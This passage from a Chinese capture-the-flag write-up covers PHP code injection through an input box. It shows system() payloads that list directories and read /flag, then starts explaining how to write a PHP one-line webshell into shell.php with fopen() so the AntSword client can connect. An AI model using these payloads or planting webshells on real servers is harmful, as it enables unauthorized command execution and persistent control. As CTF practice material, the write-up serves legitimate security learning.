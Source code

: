 ```
![image-20250731210535839](./assets/image-20250731210535839.png)

输入框可以执行命令

```
<?php system("ls"); ?>
```

![image-20250731210652848](./assets/image-20250731210652848.png)

```
<?php system("ls ../../../"); ?>
```

![image-20250731210712462](./assets/image-20250731210712462.png)

```
<?php system("cat /flag"); ?>
```

![image-20250731210735660](./assets/image-20250731210735660.png)

## 方法二、将 PHP 一句话木马写入文件

为了蚁剑能连上，直接执行木马是不行的，要将木马写入文件中。

## fopen() 函数

```
fopen(filename,mode,include_path,context)
```

**`filename`（必需）**

- 你要打开的文件名（可以是本地文件路径，也可以是 URL，如果 `allow_url_fopen` 在 php.ini 中被开启）。
- 例：`"file.txt"` 或 `"https://example.com/file.txt"`

**`mode`（必需）**

- 决定文件的打开方式（读/写/追加等）。
- 可选值：
  - **`r`**：只读模式（从文件头开始，文件必须存在）。
  - **`r+`**：读写模式（从文件头开始，文件必须存在）。
  - **`w`**：写入模式（清空文件内容，如果文件不存在会尝试创建）。
  - **`w+`**：读写模式（清空文件内容，如果文件不存在会尝试创建）。
  - **`a`**：追加模式（写入时从文件末尾开始，如果文件不存在会尝试创建）。
  - **`a+`**：读写追加模式（写入时从文件末尾开始，如果文件不存在会尝试创建）。
  - **`x`**：创建新文件并写入（文件已存在时返回 `FALSE`）。
  - **`x+`**：创建新文件并读写（文件已存在时返回 `FALSE`）。

**`include_path`（可选）**

- 如果设为 `1`，PHP 会在 `include_path`（在 `php.ini` 中配置）中搜索文件。
- 常用于引用包含在 `include_path` 下的文件。

**`context`（可选）**

- 用于指定文件句柄的上下文（比如 HTTP 请求头、超时设置、代理等）。
- 通过 `stream_context_create()` 来创建 context 对象。

```
fopen('shell.php','w')
```

该语句的意思为，以写入方式打开一个叫做“ shell.php ”,的文件，该文件不存在，故创建了一个shell.php文件。
```